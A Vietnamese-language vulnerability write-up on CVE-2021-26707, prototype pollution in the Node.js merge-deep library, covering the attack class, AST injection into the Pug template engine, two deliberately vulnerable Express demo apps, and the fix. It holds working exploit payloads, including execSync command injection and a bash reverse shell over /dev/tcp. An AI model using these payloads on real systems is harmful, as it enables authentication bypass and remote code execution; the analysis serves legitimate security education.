# CVE-2021-26707


## Prototype Pollution Node.js merge-deep library (< 3.0.3) 

Bài viết sẽ giới thiệu về:

- Một vài khái niệm và cơ chế của JavaScript
- Kiểu tấn công Prototype Pollution
- Kiểu tấn công AST Injection
- Khai thác CVE-2021-26707 Nodejs merge-deep library < 3.0.3
- Cách phòng chống & Bản vá cho mã lỗi


### I. Prototype Pollution Attack

#### 1. JavaScript Concepts

Điều thú vị trong JavaScript là cách class được khai báo và hoạt động. Ví dụ như ta muốn khai báo một class gọi là `person`, thì ta lại có thể bắt đầu bằng từ khóa `function`. Điều này xảy ra vì trong JavaScript, khái niệm lớp và hàm là tương quan. `function` ở đây đóng vai trò là constructor để khởi tạo cho class và thực chất không có khái niệm class trong JavaScript theo đúng chuẩn class-based OOP:


Và khi chúng ta muốn thêm thuộc tính hay method vào class, ta hoàn toàn có thể thêm động bất cứ lúc nào thông qua một thứ gọi là prototype. Ví dụ như nếu ta muốn thêm một method là `talk` vào toàn bộ các instance trong class `person`, ta có thể gán method mới vào giá trị `person.prototype.talk` như sau:


Một điều khác cũng cần phải lưu ý đó là mọi đối tượng, bao gồm cả các thực thể từ một lớp, đều xuất phát từ một đối tượng gốc gọi là `Object`. Ví dụ như ta có thể khởi tạo một đối tượng rỗng bằng hàm `Object.create(null)`.  Ngoài ra, trong Object có thuộc tính constructor giúp trỏ về thứ khởi tạo nên đối tượng đó:



Bởi vậy nên tại đây, ta đang có một thực thể là `person1`, constructor của nó sẽ trỏ về hàm khởi tạo class đó là hàm `person()`. Điều đó đồng nghĩa với việc ta có thể gọi tới được prototype của class thông qua `person1.constructor.prototype`. 

Hay ngoài ra ECMAScript 6 (ES6) cũng hỗ trợ một từ khóa khác là `__proto__` để thay thế cho cả một cụm `constructor.prototype`, vậy nên ở đây ta có thể rút gọn cú pháp lại thành `person1.__proto__`:


Mọi đối tượng trong JavaScript đơn giản là một tập hợp gồm các key và value, và mọi đối tượng đều được kế thừa từ Object. Điều này có nghĩa là nếu ta có khả năng pollute (tức thêm xóa sửa động các thuộc tính) trên prototype của Object thì toàn bộ các đối tượng khác trong môi trường cũng sẽ bị pollute.

#### 2. \_\_proto\_\_Pollution

Đầu tiên, cách nhanh nhất là attacker có thể lợi dụng từ khóa `__proto__` để truy cập vào prototype của Object vì nó gọn hơn so với `constructor.prototype`.

Ta có thể truy cập `Object.prototype` bằng cách gọi `__proto__` từ thực thể `person1` để gọi lên prototype của class `person`. Rồi từ class `person` gọi `__proto__` lần nữa để trỏ lên prototype của `Object`:


Vì vậy, như đã đề cập trước đây, nếu một thuộc tính được thêm vào đối tượng Object thì toàn bộ đối tượng sẽ có quyền truy cập vào thuộc tính mới. Khi này, các JS object sẽ chứa các thuộc tính mới bao gồm: hàm `saySth` in ra console dòng `I'm polluted!` và biến constant  `isPolluted` trả về giá trị `true`:



Đấy là đối với trường hợp khai thác từ instance của một class được khai báo, ở đây là class `person`. Vậy nếu trường hợp đối tượng mà attacker sử dụng để khai thác là một đối tượng đơn thuần được khởi tạo bằng việc gán giá trị dictionary vào biến thì sao?

Khi đó mọi việc sẽ đơn giản hơn vì toàn bộ đối tượng đều được kế thừa từ Object. Thế nên đối với trường hợp này ta không cần phải gọi qua prototype của một class trung gian để lên Object nữa mà ta chỉ cần gọi `__proto__` một lần để trỏ thẳng lên thuộc tính `Object.prototype`:


#### 3. prototype Pollution

Sẽ có nhiều trường hợp từ khóa `__proto__` bị chặn, khi đó, attacker sẽ phải tìm cách khai thác thông qua từ khóa `prototype`.

**Có 2 cách để có thể khai thác prototype pollution để đầu độc tất cả các đối tượng JavaScript.**

Cách đầu tiên là đầu độc thuộc tính prototype trực tiếp của Object nếu có thể, vì như đã nói ở lúc trước toàn bộ đối tượng JavaScript đều kế thừa từ thuộc tính này:


Một cách khác thường gặp hơn, cũng tương tự như khi khai thác thông qua `__proto__`, ta có thể đầu độc prototype của constructor từ một biến dictionary. Nhưng thay vì sử dụng từ khóa `__proto__` để trỏ lên, attacker sử dụng trực tiếp `constructor.prototype`, chẳng hạn như ví dụ sau đây:


Nếu ta có thể thực thi được một trong 2 cách như trên, toàn bộ đối tượng JavaScript sẽ sở hữu thuộc tính `isPolluted` với giá trị `true`.

#### 4. Ví dụ khai thác

##### 4.1. Khai thác căn bản

Ví dụ phổ biến nhất của kiểu khai thác Prototype Pollution như sau:

```js
if (user.isAdmin) {   
    // do something important!
}
```

Hình dung ta có một vị trí prototype pollution có thể set được `Object.prototype.isAdmin = true`. Khi đó `user.isAdmin` luôn đúng khiến cho kiểm soát truy cập tại đoạn code này bị sai logic dẫn đến khả năng truy cập trái phép.

##### 4.2. Mindset chung

Vậy thì trên các ứng dụng thực tế, Prototype Pollution sẽ xảy ra tại đâu? 

Ví dụ như ta có một biểu thức như sau trong JavaScript:

```js
obj[a][b] = value;
```

Ý tưởng chung đằng sau kiểu khai thác Prototype Pollution bắt đầu bằng việc attacker có thể thay đổi tối thiểu 2 biến "a" và "value" của bất kỳ biểu thức nào dạng trên. Khi đó, thuộc tính `b` của tất cả đối tượng thuộc class của `obj` sẽ được gán giá trị là `value`.

Nếu có cả "b" luôn thì càng đơn giản để khai thác. Lấy ví dụ khi nãy "b" là "isAdmin" chẳng hạn, khi đó attacker có thể set "a" thành  "\_\_proto\_\_" còn value thành "true". Từ đó ta có biểu thức:

```js
obj.__proto__.isAdmin = true;
```

Điều tương tự có thể xảy ra trong trường hợp tiếp theo nếu attacker kiểm soát dc tối thiểu "a", "b" và "value" trong các biểu thức dạng sau:

```js
obj[a][b][c] = value
```

Attacker khi này có thể set giá trị "a" thành "constructor" và "b" thành "prototype" và kiểu khai thác tương tự sẽ xảy ra:

```js
obj.constructor.prototype.isAdmin = true;
```

Lưu ý lại, cũng cùng biểu thức `obj[a][b][c] = value`, nên nhớ nếu biến `obj` mà ta đang khai thác không phải thực thể trực tiếp của Object mà của một class được khai báo, ta luôn có thể khai thác chuỗi prototype bằng cách truy cập thuộc tính `__proto__`  để lên prototype của class thông thường, rồi truy cập thuộc tính `__proto__` lần nữa để lên prototype của Object:

```js
obj.__proto__.__proto__.isAdmin = true;
```

Tuy nhiên, quá trình khai thác Prototype Pollution trên các ứng dụng thực tế sẽ không rõ ràng và đơn giản như vậy. Theo [báo cáo](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf), các kiểu triển khai API trên các thư viện npm mắc lỗi dẫn đến Prototype Pollution sẽ nằm trong 3 trường hợp bao gồm:

- Recursive merge (Hợp nhất đệ quy)

- Property definition by path (Định nghĩa thuộc tính thông qua đường dẫn)

- Clone object (Nhân bản đối tượng)

##### 4.3. Recursive merge

Phép merge thường sẽ đơn giản hợp nhất 2 đối tượng với các thuộc tính khác nhau lại với nhau bằng cách thực hiện vòng lặp lên toàn bộ các thuộc tính của một đối tượng gốc. Nếu thuộc tính tồn tại trên cả 2 đối tượng thì đơn giản sẽ gọi đệ quy lại hàm merge, còn nếu không sẽ gán giá trị đó vào đối tượng đích. 



Có thể thấy hàm `merge()` copy từng cặp key-value từ một dictionary gốc sang một dictionary đích khác. Điều này trông có vẻ an toàn, nhưng khi ta có thể kiểm soát đối tượng gốc và gán key là `__proto__` hoặc `prototype` vào đối tượng đích thì Prototype Pollution sẽ xảy ra, vì chúng cũng xuất hiện trong đối tượng đích và bỏ qua được điều kiện kiểm tra.



##### 4.4. Property definition by path

Một điều thú vị là có rất nhiều thư viện cho phép gán giá trị thuộc tính thông qua một biến gọi là path. Với cấu trúc gần giống như sau:


Khi sử dụng, người dùng chỉ việc gọi hàm lên đối tượng kèm theo thông tin về path thuộc tính và giá trị. Ví dụ như tại đây ta có thể thay đổi giá trị thuộc tính `b.test` của đối tượng `a` từ `123` thành `321` với cú pháp như sau: 


Tuy nhiên khi nhìn về góc độ bảo mật, attacker có thể truyền giá trị `__proto__` hoặc `prototype` vào path để khai thác Prototype Pollution: 


##### 4.5. Clone object

Kiểu triển khai cuối cùng được phát hiện gặp phải lỗi PP đó là phép clone object. Ví dụ như ta có một đối tượng có sẵn, và ta muốn khởi tạo một đối tượng khác y hệt như vậy, thì đó là lúc ta sử dụng phép clone.

Cách mà một triển khai bị lỗi Prototype Pollution là khi họ sử dụng kết hợp phép merge với một empty object để hỗ trợ khởi tạo đối tượng mới:



Đây không phải là kiểu triển khai phổ biến nên rất ít khi xuất hiện và từ trước tới giờ mới chỉ có 1 thư viện được biết là chịu ảnh hưởng bởi kiểu khai thác này.

##### 4.6. Khả năng Client-side

Về khai thác Prototype Pollution tại phía client-side để cho ra các mã lỗi XSS là hoàn toàn có thể xảy ra vì các hoạt động dữ liệu tại phía front-end của một website hoàn toàn phụ thuộc vào JavaScript.

Xem danh sách một vài các disclosure tiêu biểu về client-side PP tại [Client-Side Prototype Pollution repo](https://github.com/BlackFan/client-side-prototype-pollution).

Hiện tại chưa có chức năng để quét Prototype Pollution được hộ trợ bên trong các chức năng scan hay extension của BurpSuite. Tuy nhiên đã có một vài các tool được hình thành có thể sử dụng để hỗ trợ đẩy các payload vào endpoint và xác định Prototype Pollution nhanh chóng hơn.

Trong đó có thể kể đến như [ppfuzz](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0) và [ppmap](https://github.com/kleiton0x00/ppmap). Ngoài ra, ta cũng có thể sử dụng một Browser extension có tên là [PPScan](https://github.com/msrkp/PPScan) để tự động quét Prototype Pollution trên các trang mà ta truy cập. 

Do không liên quan đến mã CVE mà ta sẽ tiến hành phân tính nên chi tiết các phương pháp tìm kiếm và khai thác các mã lỗi PP phía Client-side có thể sẽ được giới thiệu trong các bài viết khác. Ngoài ra ta có thể tham khảo hướng dẫn tại [bài blog này](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution).

##### 4.7. Khả năng RCE

Về khả năng khai thác RCE của tấn công Prototype Pollution sẽ phải phụ thuộc vào một vài yếu tố. Ví dụ có một đoạn mã JavaScript như sau:

```js
const { execSync, fork } = require('child_process');

function isObject(obj) {
    console.log(typeof obj);
    return typeof obj === 'function' || typeof obj === 'object';
}

function merge(target, source) {
    for (let key in source) {
        if (isObject(target[key]) && isObject(source[key])) {
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

function clone(target) {
    return merge({}, target);
}

clone(USERINPUT);

let proc = fork('VersionCheck.js', [], {
    stdio: ['ignore', 'pipe', 'pipe', 'ipc']
});
```

Tại đây ta có thể RCE thông qua các biến môi trường. Trick này được lấy từ [bài viết sau](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/). Đơn giản là khi một process mới sử dụng node được khởi tạo và ta có thể đầu độc được biến môi trường của nó thông qua PP attack, ta có thể thực thi được RCE.

Ta cũng có thể đầu độc biến môi trường bằng cách thiết lập thuộc tính `env` trong một vài đối tượng JavaScript.

Ta có thể đầu độc thuộc tính `env` của mọi đối tượng thông qua thuộc tính `__proto__`:

```js
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('echo polluted > poc.txt').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
let proc = fork('VersionCheck.js', [], {
    stdio: ['ignore', 'pipe', 'pipe', 'ipc']
});
```

Hoặc ta cũng có thể lợi dụng trực tiếp `prototype` từ `constructor` của đối tượng:

```js
b = {"name": "Cat"}
b.constructor.prototype.env = { "EVIL":"console.log(require('child_process').execSync('echo polluted > poc.txt').toString())//"}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"
let proc = fork('VersionCheck.js', [], {
    stdio: ['ignore', 'pipe', 'pipe', 'ipc']
});
```

Đoạn lệnh bên trong payload thực thi thành công sẽ trả ra file `poc.txt` tại thư mục hiện tại với nội dung là `polluted`.

Quay trở lại ví dụ trên, nếu ta thay thế giá trị USERINPUT bằng giá trị truyền vào như sau thì RCE như trên sẽ được thực thi:

```
{"name":"Cat","constructor":{"prototype":{"env":{ "EVIL":"console.log(require('child_process').execSync('echo polluted > poc.txt').toString())//"},"NODE_OPTIONS":"--require /proc/self/environ"}}}
```



##### 4.8. AST Injection

Kỹ thuật AST Injection là một kỹ thuật đặc biệt để khai thác Prototype Pollution nhằm thực thi được mã RCE. Trong NodeJS, AST được sử dụng trong JavaScript rất thường xuyên, ví dụ như cho các cú pháp template engines hay Typescript.

Có thể xem thêm về kỹ thuật khai thác này tại [một bài blog giới thiệu và khai thác AST thông qua flat library](https://blog.p6.is/AST-Injection/). Do đây không phải là một bài đào sâu về AST Injection nên, ta sẽ không đi quá chi tiết vào kiểu khai thác này.

Nói đơn giản thì việc khai thác AST Injection cũng bắt nguồn từ khả năng RCE của PP đó là thông qua một process khác. Ví dụ như đối với các template engine thường sẽ có cấu trúc như sau:



Khi đó, dữ liệu tham số truyền vào thường sẽ được gọi qua các hàm Lexer và Parser. Sau cùng được đưa vào Compiler và thực thi. Từ đó, nếu attacker có khả năng thay đổi các thuộc tính liên quan đến process này thì RCE sẽ xảy ra.

Ví dụ như đối với template engine Pug sẽ hoạt động theo mô hình bên dưới, mỗi process sẽ được chia ra làm các module khác nhau. AST được generate bởi `pug-parser` được chuyển tới `pug-code-gen` và được tạo thành một hàm và sau cùng sẽ được thực thi:



Cú pháp sử dụng Pug căn bản sẽ như sau. Hàm `pug.compile` chuyển đổi một string thành template function và truyền các đối tượng tham chiếu:

```js
const pug = require('pug');

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works</h1>
```

Khi ta gán AST vào thuộc tính `Object.prototype.block`, trình thông dịch sẽ thêm nó vào buffer bằng cách refer tới giá trị:

```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

Khi `ast.type` mang giá trị là `While`, chương trình sẽ gọi hàm `walkAST` cùng với tham số `ast.block` (sẽ trả về giá trị prototype nếu chưa được gán sẵn).

Nếu template tham chiếu bất kỳ giá trị nào từ argument, While node sẽ luôn tồn tại vì vậy độ tin cậy là khá cao.

Trên thực tế, nếu developer không phải tham chiếu đến bất kỳ giá trị nào từ argument trong template thì ngay từ đầu họ sẽ không sử dụng bất kỳ engine template nào.

```js
// /node_modules/pug-code-gen/index.js

switch (ast.type) {
    case 'NamedBlock':
    case 'Block':
        ast.nodes = walkAndMergeNodes(ast.nodes);
        break;
    case 'Case':
    case 'Filter':
    case 'Mixin':
    case 'Tag':
    case 'InterpolatedTag':
    case 'When':
    case 'Code':
    case 'While':
        if (ast.block) {
        ast.block = walkAST(ast.block, before, after, options);
        }
        break;
...
```

Trong trình biên dịch của pug, có một biến lưu trữ số dòng có tên là `pug_debug_line` để gỡ lỗi. Nếu giá trị `node.line` tồn tại, nó sẽ được thêm vào buffer, nếu không nó sẽ được bỏ qua.

Đối với AST được tạo bằng pug-parser, giá trị `node.line` luôn được chỉ định dưới dạng số nguyên. Tuy nhiên, chúng ta có thể chèn một chuỗi vào giá trị này thông qua AST Injection và gây ra việc thực thi mã tùy ý.

```js
// /node_modules/pug-code-gen/index.js

if (debug && node.debug !== false && node.type !== 'Block') {
    if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
            js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
    }
}
```

Ví dụ về một hàm được tạo. Bạn có thể thấy rằng giá trị `Object.prototype.line` được chèn vào bên phải `pug_debug_line`.

```js
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());

/*
function template(locals) {
    var pug_html = "",
        pug_mixins = {},
        pug_interp;
    var pug_debug_filename, pug_debug_line;
    try {;
        var locals_for_with = (locals || {});

        (function (console, msg, process) {;
            pug_debug_line = 1;
            pug_html = pug_html + "\u003Ch1\u003E";;
            pug_debug_line = 1;
            pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));;
            pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
            pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
        }.call(this, "console" in locals_for_with ?
            locals_for_with.console :
            typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
            locals_for_with.msg :
            typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
            locals_for_with.process :
            typeof process !== 'undefined' ? process : undefined));;
    } catch (err) {
        pug.rethrow(err, pug_debug_filename, pug_debug_line);
    };
    return pug_html;
}
*/
```

Kết quả là, một cuộc tấn công có thể được cấu hình bằng cách chỉ định một chuỗi trong giá trị `node.line`, giá trị này luôn được xác định là số thông qua trình phân tích cú pháp (parser). Vì vậy, lệnh hệ thống cũng có thể được chèn vào hàm:

```js
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // "uid=0(root) gid=0(root) groups=0(root)\n\n<h1>It worksndefine</h1>"
```


### II. CVE-2021-26707

#### 1. Node.js JavaScript Runtime Environment

Node.js là một nền tảng được xây dựng trên "V8 Javascript engine" được viết bằng C++ và Javascript.

Node.js ra đời khi các developer đời đầu của Javascript mở rộng nó từ ngôn ngữ chỉ chạy trên trình duyệt thành thứ có thể chạy trên máy tính dưới dạng ứng dụng độc lập.

Giờ đây ta có thể làm được nhiều thứ với JavaScript hơn là chỉ tương tác với các website, ví dụ như sử dụng để build một website back-end hoàn chỉnh. Rất nhiều Javascript back-end framework đã được sinh ra từ runtime này.

Ngoài ra, với sự ra đời và độ phổ biến của ngôn ngữ cao cấp hơn là TypeScript, các ứng dụng Nodejs ngày càng phát triển mạnh. và các dự án lớn chạy Nodejs cũng từ đó ra đời nhiều hơn, đặc biệt là khoảng thời gian sắp tới.

#### 2. merge-deep library

merge-deep, thư viện có liên quan đến mã lỗi, đơn giản được dùng để hỗ trợ hợp nhất đệ quy các giá trị trong các đối tượng JavaScript cho ứng dụng chạy trên nền Node.js.

Cài đặt thông qua node package manager:

```sh
$ npm install --save merge-deep
```

Cú pháp sử dụng:

```js
var merge = require('merge-deep');

merge({a: {b: {c: 'c', d: 'd'}}}, {a: {b: {e: 'e', f: 'f'}}});
//=> { a: { b: { c: 'c', d: 'd', e: 'e', f: 'f' } } }
```


### III. Phân tích mã lỗi

#### 1. Phân tích code

Thư viện merge-deep tại các phiên bản trước 3.0.3 cho Node.js có thể bị khai thác để ghi đè các thuộc tính của Object.prototype hoặc thêm các thuộc tính mới vào nó. Các thuộc tính này sau đó được kế thừa bởi mọi đối tượng trong chương trình, do đó tạo điều kiện cho các cuộc tấn công theo dạng Prototype Pollution Attack.

```js
var union = require('arr-union');
var clone = require('clone-deep');

...

function merge(target, obj) {
  for (var key in obj) {

    if (key === '__proto__' || !hasOwn(obj, key)) { 
      continue;
    }

    var oldVal = obj[key];
    var newVal = target[key];
	
    if (isObject(newVal) && isObject(oldVal)) {
      target[key] = merge(newVal, oldVal);
    } else if (Array.isArray(newVal)) {
      target[key] = union([], newVal, oldVal);
    } else {
      target[key] = clone(oldVal);
    }
  }
  return target;
}

function hasOwn(obj, key) {
  return Object.prototype.hasOwnProperty.call(obj, key);
}

function isObject(val) {
  return typeOf(val) === 'object' || typeOf(val) === 'function';
}
```

Có thể thấy cơ chế recursive merge của merge-deep gần như tương ứng với ví dụ cho hàm merge object tại phần giới thiệu trước. Chỉ khác ở chỗ có một điều kiện kèm xảy ra cho kiểm tra giá trị `key` là không được là `__proto__`. Tuy nhiên, attacker vẫn còn có thể sử dụng từ khóa `prototype` để thay thế và khai thác mã lỗi này.


#### 2. Khai thác mã lỗi (DEMO)

##### 2.1. Demo 1 - Classic Prototype Pollution attack

Demo 1 mô phỏng một dạng lợi dụng cổ điển của Prototype Pollution nhằm gán giá trị thuộc tính tùy ý để leo quyền nhằm truy cập tài nguyên không cho phép.

Ứng dụng đơn giản có chức năng chính tại endpoint `/merge` cho phép người truy cập khai báo thông tin của mình . Ứng dụng khi nhận được thông tin của người dùng sẽ sử dụng hàm merge để gán thêm địa chỉ IP của họ vào object.

Ứng dụng ngoài ra cũng có trang `/admin` cho quản trị viên. Kiểm tra quyền thông qua thuộc tính `isAdmin` của người dùng (có thể được cấp sau khi cung cấp thông tin đăng nhập chính xác).

```js
// demo 1 - thay doi logic ung dung - nang quyen
// - thay doi gia tri object qua intercept
// - ung dung thuc hien merge 2 object tai back-end su dung thu vien merge-deep
// - object truyen vao chua thuoc tinh "constructor.prototype.isAdmin" dc set gia tri la "true"
// - toan bo cac JS object duoc gan gia tri la "true" cho thuoc tinh ten "isAdmin"


// npm install --save merge-deep
const merge = require('merge-deep');

// npm install --save express
const express = require('express');


// used to parse HTTP post request body
var bodyParser = require('body-parser');

var app = express();

// create application/json parser
var jsonParser = bodyParser.json();
 
// create application/x-www-form-urlencoded parser
var urlencodedParser = bodyParser.urlencoded({ extended: false });


INDEX_PATH = '/';
MERGE_PATH = '/merge';
ADMIN_PATH = '/admin';
TEMP_USER = {};


app.get(INDEX_PATH, function(req, res){
    res.sendFile('./static/index.html', {root: __dirname });
});

app.post(MERGE_PATH, jsonParser, function(req, res){

    let source = req.body; 
    let target = {ip:req.socket.remoteAddress};

    result = merge(target, source);
    res.send(result);

});

app.get(ADMIN_PATH, function(req, res){

    function checkLogin() {
        // do some credentials checking
        return false;
    }
    if (checkLogin()) {
        TEMP_USER.isAdmin = true;
    }

    if (TEMP_USER.isAdmin === true) {
        res.send('<h1>WELCOME ADMIN!</h1>')
    } else {
        res.send('<h2>ONLY ADMIN CAN VIEW THIS PAGE!</h1>')
    }

});


app.listen(3000);
```

Nội dung file `./static/index.html` gửi ajax request đến phía back-end như sau:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>

    <form id="myForm">
        <label>Name</label>
        <input type="text" name="name" value="Chel"><br><br>
        <label>Age</label>
        <input type="text" name="age" value="22"><br><br>
        <label>Email</label>
        <input type="text" name="email" value="hoangtv19@viettel.com.vn"><br><br>
        <input type="submit" value="Submit">
    </form>
    
    <script>
        var form = document.getElementById('myForm');
        form.onsubmit = function(event){
            var xhr = new XMLHttpRequest();
            var formData = new FormData(form);
            //open the request
            xhr.open('POST','http://localhost:3000/merge')
            xhr.setRequestHeader("Content-Type", "application/json");

            //send the form data
            xhr.send(JSON.stringify(Object.fromEntries(formData)));

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    alert('Data submitted successfully!')
                    form.reset(); //reset form after AJAX success or do something else
                }
            }
            //Fail the onsubmit to avoid page refresh.
            return false; 
        }
    </script>

</body>
</html>
```

Khi ta chạy ứng dụng vào truy cập vào thử trang admin thì có thể thấy ứng dụng không cho phép vì giá trị thuộc tính `isAdmin` chưa được gán cho `TEMP_USER`. 


Chúng ta quay lại trang index và bắt đầu nhập thông tin cá nhân. Tại hàm merge khi người dùng nhập thông tin thì ứng dụng sẽ thực hiện sử dụng thư viện merge-deep để merge object đầu vào và địa chỉ IP và cho ra kết quả như sau:



Khi đó, attacker có thể lợi dụng lỗ hổng để triển khai tấn công prototype pollution với payload:

```json
{"name":"Chel","age":"22","email":"hoangtv19@viettel.com.vn","constructor":{"prototype":{"isAdmin":true}}}
```



Ta không thể thấy thuộc tính "prototype" được trả về response do nó đã được gán trực tiếp vào giá trị của `Object.prototype`.



Sau đó ta quay lại trang admin thì có thể thấy đã truy cập thành công mà không cần thông qua bất kỳ xác thực nào.


Video demo: https://youtu.be/NSHsrs4JEBY

##### 2.2. Demo 2 - AST Injection to RCE attack

Demo 2 mô phỏng một dạng khai thác prototype pollution nâng cao là AST Injection để từ lỗi Prototype Pollution có thể khai thác thực thi RCE vào máy chủ mục tiêu.

Ứng dụng đơn giản có chức năng chính tại endpoint `/merge` cho phép người truy cập khai báo thông tin của mình . Ứng dụng khi nhận được thông tin của người dùng sẽ sử dụng hàm merge để gán thêm địa chỉ IP của họ vào object.

Ứng dụng ngoài ra cũng có trang `/template` là một trang mà ứng dụng web sử dụng template engine là [pug](https://pugjs.org/api/getting-started.html) để render HTTP response và trả về cho người dùng.

```js
// demo 2 - Khai thac AST Injection len pug template engine de RCE
// - thay doi gia tri object qua intercept
// - ung dung thuc hien merge 2 object tai back-end su dung thu vien merge-deep
// - object truyen vao chua thuoc tinh "block.line" dc set RCE payload 


// npm install --save merge-deep
const merge = require('merge-deep');

// npm install --save express
const express = require('express');

// npm install -save pug
const pug = require('pug');


// used to parse HTTP post request body
var bodyParser = require('body-parser');

var app = express();

// create application/json parser
var jsonParser = bodyParser.json();
 
// create application/x-www-form-urlencoded parser
var urlencodedParser = bodyParser.urlencoded({ extended: false });


INDEX_PATH = '/';
MERGE_PATH = '/merge';
TEMPLATE_PATH = '/template';


app.get(INDEX_PATH, function(req, res){
    res.sendFile('./static/index.html', {root: __dirname });
});

app.post(MERGE_PATH, jsonParser, function(req, res){

    let source = req.body; 
    let target = {ip:req.socket.remoteAddress};

    result = merge(target, source);
    res.send(result);

});

app.get(TEMPLATE_PATH, function(req, res){

    const template = pug.compile(`h1= msg`);
    res.end(template({msg: 'pug template is working!'}));

});


app.listen(3000);
```

Tương tự như demo thứ nhất, payload sẽ được truyền vào endpoint. Tuy nhiên lần này, cấu trúc của payload sẽ khác đôi chút để khai thác vào các thành phần của Pug template engine:

```json
{"name":"Chel","age":"22","email":"hoangtv19@viettel.com.vn","constructor":{"prototype":{"block":{"type":"Text","line":"process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/localhost/1234 0>&1'`)" }}}}
```





Video demo: https://youtu.be/64FfZazKtTc


### IV. Bản vá cho mã lỗi

#### 1. Phòng chống Prototype Pollution

- Đóng băng thuộc tính sử dụng hàm `Object.freeze(Object.prototype)`
- Thực hiện xác thực các đầu vào JSON phù hợp với schema của ứng dụng
- Tránh sử dụng các hàm hợp nhất đệ quy một cách không an toàn
- Sử dụng đối tượng không có thuộc tính prototype, ví dụ như `Object.create(null)` để tránh ảnh hưởng đến prototype chain
- Sử dụng `Map` thay thế cho `Object`
- Thường xuyên cập nhật bản vá cho các thư viện sử dụng

#### 2. Bản vá cho CVE

Link bản vá mã lỗi:

>  https://github.com/jonschlinkert/merge-deep/commit/11e5dd56de8a6aed0b1ed022089dbce6968d82a5

Ứng dụng chỉ hủy merge nếu key là `__proto__` hoặc kế thừa từ một class.

Bản vá cập nhật sử dụng hàm `isValidKey()` để check kỹ key không phải `__proto__`, `constructor` hay `prototype` để tránh bị người dùng khai thác ảnh hưởng đến prototype chain.




### V. References

- Link mã CVE: 

  > https://nvd.nist.gov/vuln/detail/CVE-2021-26707

- Link bài blog tham khảo về sơ lược mã lỗi:

  > https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

- Link bài paper chi tiết về kiểu lỗi:

  > https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf
- Link bài kỹ thuật AST Injection: 

  > https://blog.p6.is/AST-Injection/

